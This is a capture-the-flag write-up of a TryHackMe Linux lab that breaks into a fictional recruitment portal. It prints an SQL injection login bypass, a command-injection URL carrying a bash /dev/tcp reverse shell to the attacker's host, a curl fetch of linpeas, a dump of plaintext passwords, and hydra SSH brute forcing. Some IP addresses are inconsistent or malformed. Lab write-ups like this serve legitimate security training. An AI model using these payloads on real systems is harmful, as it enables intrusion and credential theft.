# Operation Promotion — TryHackMe Write-up

**Platform:** TryHackMe
**Room:** Operation Promotion
**Target IP:** TryHackMe reassigns IPs on target)*
**Attacking Machine:** Kali Linux (`ninjax@ninjax`)
**Date:** July 2026

---

## 1. Overview

Operation Promotion is a Linux box built around a fictional recruitment company, **RecruitCorp**, running a careers-portal web application. The path to root chains together five weaknesses that map very closely onto real-world findings in web application penetration tests:

1. An admin login vulnerable to **SQL injection authentication bypass**.
2. An authenticated **OS command injection** in an internal "ping" diagnostic tool.
3. A **plaintext-adjacent credential leak** — an application database readable by the web service account, containing every user's password in cleartext.
4. **Password-mutation guessing** over SSH — the real password wasn't identical to any leaked value, but was a predictable variant of a personal detail, crackable using a mutation rule engine (`hashcat --stdout` + rules) fed into a login brute forcer (`hydra`).
5. A **misconfigured `sudo` permission** on the `find` command, giving trivial root via `find`'s built-in `-exec`.

Below is the full path in the order I actually worked through it, including the dead ends (there were a few) so the reasoning is visible.

---

## 2. Reconnaissance

As always, the first move on any box is a full service scan I want to know what's listening before deciding where to spend time:

```bash
nmap -sC -sV 10.48.187.19
```

- `-sC` runs Nmap's default script set — cheap, and often surfaces low-hanging fruit (SMB info, HTTP titles, robots.txt disallow entries).
- `-sV` does version detection — useful later if I need to check for known CVEs against specific software versions.

**Result:**

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
|_http-title: RecruitCorp - Careers Portal
| http-robots.txt: 1 disallowed entry
|_/admin/
```



**Reasoning:**
- Three services worth noting: SSH (22), a standard Apache web server (80), and SMB (139/445).
- `robots.txt` disallowing `/admin/` is a gift  robots.txt entries exist specifically to tell search engines "don't index this," which incidentally tells *attackers* exactly where the interesting stuff lives. This immediately became my first target directory rather than something I had to brute-force blind.
- I mentally parked SMB (139/445) as a secondary avenue  worth a look with `smbclient`/`enum4linux` later if the web app didn't pan out, but since Nmap's `nbstat` script returned an unauthenticated NetBIOS name only, and web is almost always the faster route in on CTF-style boxes, I focused there first.

I looked at the plain web root first and found nothing immediately actionable (a static careers page), so I moved to directory enumeration to map out what else existed on the server, including the `/admin/` path already flagged by robots.txt.

```bash
gobuster dir -u http://10.48.187.19 -w /usr/share/wordlists/dirb/common.txt -x php,txt,zip,bak,py
```

**Result (relevant hits):**

```
admin        (Status: 301) [Size: 312] [--> http://10.48.187.19/admin/]
index.php    (Status: 200) [Size: 1620]
robots.txt   (Status: 200) [Size: 32]
```


The `.htaccess`/`.htpasswd`/`config` hits were all `403 Forbidden` — Apache correctly refusing to serve them directly, so no config leak from the web server itself. The real lead was `/admin/`, confirming the hint from `robots.txt`.


---

## 3. Authentication Bypass via SQL Injection

Browsing to `/admin/` presented a login page. Given how common this pattern turned out to be on similarly-themed labs I've worked (see: Silent Monitor), the first thing I tried — before anything more elaborate — was the classic SQLi auth-bypass payload:

```
Username: ' OR '1'='1' --
Password: (anything)
```


**Why this is always worth trying first:** if the backend builds its login query by directly concatenating user input, e.g.:

```sql
SELECT * FROM users WHERE username = '<input>' AND password = '<input>'
```

then `' OR '1'='1' --` turns the WHERE clause into an always true condition and comments out the rest of the query (including the password check). It costs nothing to try before reaching for a proxy/Burp and testing more surgical payloads.

**Result:** Logged in immediately — no further injection needed.

---

## 4. Command Injection via the "User Lookup" / Ping Diagnostic Feature

Inside the admin panel there was a **User Lookup** page that let you search employees by ID. I iterated through IDs to see what data was exposed, and ID `7` stood out:

```
User Lookup
ID        7
Username  sysmaint
Role      system
Notes     Service account for /admin/sysmaint-checks/ping.php. Do not disable.
```


**Reasoning:** That "Notes" field is effectively a signpost left in the app on purpose — it points directly at another endpoint (`ping.php`) that I hadn't found via directory brute-forcing (probably because "sysmaint-checks" wasn't in the common wordlist). Any endpoint with "ping" in the name that takes a host parameter is an immediate command-injection suspect, since "ping a host" is almost always implemented as:

```php
system("ping -c 1 " . $_GET['host']);
```

I tested this hypothesis with a *non-destructive* injection first — appending a harmless second command (`ls`) rather than jumping straight to a reverse shell, to confirm the vulnerability exists before doing anything more invasive:

```
http://10.48.187.19/admin/sysmaint-checks/ping.php?host=198.162.138.232%0Als
```

`%0A` is a URL-encoded newline, which acts as a command separator in a shell context — so this runs `ping -c 1 198.162.138.232` and then, on its own line, `ls`.

**Result:** The ping output came back exactly as expected (packet loss, since that IP wasn't reachable) — confirming the parameter reaches a shell. This validated the vulnerability.



### Escalating to a reverse shell

With injection confirmed, I moved to the actual goal: an interactive shell back on my attack box. I set up a listener first:

```bash
nc -lvnp 4445
```

Then triggered a reverse shell via the same injection point, using `;` this time instead of a newline (both work as shell separators, but `;` is often more reliable inside a URL query string once URL-encoded):

```
http://10.48.187.19/admin/sysmaint-checks/ping.php?host=192.168.138.232%3Bbash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/<attack-ip>>/4445%200%3E%261%27
```

Decoded, that payload is:

```bash
bash -c 'bash -i >& /dev/tcp/<attack-ip>/4445 0>&1'
```

This is the standard Bash-native reverse shell one-liner: it opens a TCP connection to my listener and redirects the interactive shell's stdin/stdout/stderr through that socket.

**Result:** Caught a shell as `www-data` on my listener.



---

## 5. Post-Exploitation Enumeration

Landing as `www-data` is a low-privilege web service account, so the next step is always the same: look for anything writable, readable, or misconfigured that could lead to a real user account.

```bash
find / -writable -type f 2>/dev/null | grep -v "^/proc" | grep -v "^/sys"
```

I filtered out `/proc` and `/sys` because those pseudo filesystems generate huge amounts of noise (virtual files that always show as "writable" but aren't useful).

**Result — relevant writable files:**

```
/var/lib/recruitcorp/app.db
/var/www/html/admin/sysmaint-checks/ping.php
/var/www/html/config/db.conf
```

Two things immediately stood out: an application **database file** (`app.db`) and a **db config file** (`db.conf`). I read the config first since it's usually the fastest path to credentials:

```bash
cat /var/www/html/config/db.conf
```

```ini
# RecruitCorp application database config
# Pulled out of source control - DO NOT COMMIT.
db_host=localhost
db_name=recruitcorp
db_user=jford
db_pass_hash=$2b$10*************************************
db_engine=sqlite3
```

**Reasoning:** `jford` is the DB user, and that `$2b$...` string is a **bcrypt hash** — not directly usable, but crackable offline. I cross-checked whether `jford` was a real system account:



```bash
cat /etc/passwd | grep jford
# jford:x:1001:1001::/home/jford:/bin/bash
```

Confirmed — `jford` has a real login shell, making it a genuine escalation target (unlike most of the `nologin` service accounts on this box).

I tried `su - jford` directly (worth a quick shot in case of blind luck or shared history) — no success — then queued the bcrypt hash for offline cracking with `john` on my attack box while I kept enumerating rather than sitting idle waiting on a slow crack:

```bash
john --wordlist=<wordlist> hash.txt
```

### Reading the application database directly

While the hash was cracking in the background, I went after the SQLite database itself, since `db_engine=sqlite3` told me exactly what tool to use:

```bash
sqlite3 /var/lib/recruitcorp/app.db ".tables"
```

```
users
```

```bash
sqlite3 -header -column /var/lib/recruitcorp/app.db "SELECT * FROM users;"
```

**Result:**

```
id  username  password         role       notes
--  --------  ---------------  ---------  --------------------------------------------------------------------
1   admin     A!7s2f9DkLp_Q3e  admin      Primary admin account.
2   mvasquez  pw_mv_4831       recruiter  Owns the EMEA pipeline.
3   tparker   pw_tp_2210       recruiter  Owns the AMER pipeline.
4   lhayes    pw_lh_9911       analyst    Reporting only.
5   kchen     pw_kc_7763       recruiter  Out on leave.
6   rdavis    pw_rd_2241       analyst    Reporting only.
7   sysmaint  pw_sm_8841       system     Service account for ping.php. Do not disable.
8   jbailey   pw_jb_3392       recruiter  New starter Q3.
9   aokafor   pw_ao_5588       recruiter  APAC.
```




This was a **big find**: a live application table storing every user's password in plaintext — a completely separate issue from the bcrypt hash in `db.conf` (that hash was specifically for the `jford` DB-connection credential; this table is the app's own user store). Notably, `jford` doesn't even appear in this table, which told me the DB user account and the OS/SSH user account for `jford` are two entirely separate credentials — I couldn't assume they'd match.

I cross-checked `/etc/passwd` again to see which of these usernames actually correspond to real, interactive-shell OS accounts (as opposed to app-only roles with no OS presence):

```bash
cat /etc/passwd
```

Only **three** accounts on the OS had a real login shell (`/bin/bash`): `root`, `ubuntu`, and `jford`. None of the nine app-table usernames matched an OS account other than the coincidence that `jford` is also the DB user — so this table's passwords weren't going to be directly reusable as-is, but they were still valuable as *material* for guessing `jford`'s real password, since people frequently reuse or lightly modify passwords across systems.

I dropped into a proper TTY at this point since raw netcat shells are clunky (no tab-complete, breaks on Ctrl-C, no job control):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 6. Password Cracking — Targeted Wordlist, Then Pivoting to Mutation Rules

### First attempt: targeted wordlist from known values

Rather than throwing the full `rockyou.txt` at the bcrypt hash blind (slow, and low-signal on a small hand-built lab), I reasoned that since this is a themed CTF box, the real password was more likely to be a **variant** of something already seen in the engagement than a totally unrelated random string. So I built a small, high-signal custom wordlist from everything gathered so far:

```bash
cat > custom.txt << 'EOF'
A!7s2f9DkLp_Q3e
pw_mv_4831
pw_tp_2210
pw_lh_9911
pw_kc_7763
pw_sm_8841
pw_jb_3392
pw_ao_5588
recruitcorp
RecruitCorp
jford
EOF

john --wordlist=custom.txt hash.txt
```

**Result:** No match. This ruled out "the real password is literally one of the leaked app-table values"  good to eliminate quickly rather than assume.

### Second attempt: LinPEAS

Before going back to password guessing, I transferred `linpeas.sh` over to check for any other quick privilege-escalation path I might have missed (misconfigured sudo, SUID binaries, cron jobs, etc.) — this is a standard step whenever manual enumeration stalls:

```bash
# on my machine
python3 -m http.server 8000
# on target
curl http://<attack_ip>:8000/linpeas.sh -o linpeas.sh
bash linpeas.sh
```

Nothing immediately actionable jumped out from the output at that stage (the real sudo misconfiguration was found later, at the very end — see Section 8), so I went back to credential guessing.



### Third attempt: hashcat mutation rules + Hydra

My working theory was that `jford`'s real password was a **personal variant**  something like a season + year combination, which is an extremely common real-world password pattern. Rather than guessing endless manual variants by hand, I used `hashcat`'s `--stdout` mode purely as a **word-mangling engine** (not for actual hash cracking) to apply a large rule set to a candidate seed word, generating many plausible mutations at once:

```bash
echo "spring2006" > key.txt
hashcat --stdout key.txt -r /usr/share/hashcat/rules/dive.rule > list.txt
hydra -l jford -P list.txt -r 10.48165.48 ssh
```

That first guess (`spring2006` as a seed) didn't land. I adjusted the seed year to match the box's actual "current" year (2026) instead of an arbitrary guess, regenerated the mutation list, and re-ran Hydra against SSH directly  testing the mutated candidates as real login attempts rather than against an offline hash, since I had no hash for OS login authentication, only for the DB config value:


```bash
echo "spring2026" > key.txt
hashcat --stdout key.txt -r /usr/share/hashcat/rules/dive.rule > list.txt
hydra -l jford -P list.txt -r 10.48.165.48 ssh
```

**Result:**

```
[22][ssh] host: 10.48.165.48   login: jford   password: s*********
```

Success. The takeaway here: the eventual working credential (`s******`) wasn't in any leaked data at all — it was a guessable, human-pattern password (season + current year + special character), reachable only by generating mutations rather than by reusing anything already found. This is a very realistic real-world password-spraying scenario.

```bash
ssh jford@10.48.165.48
```

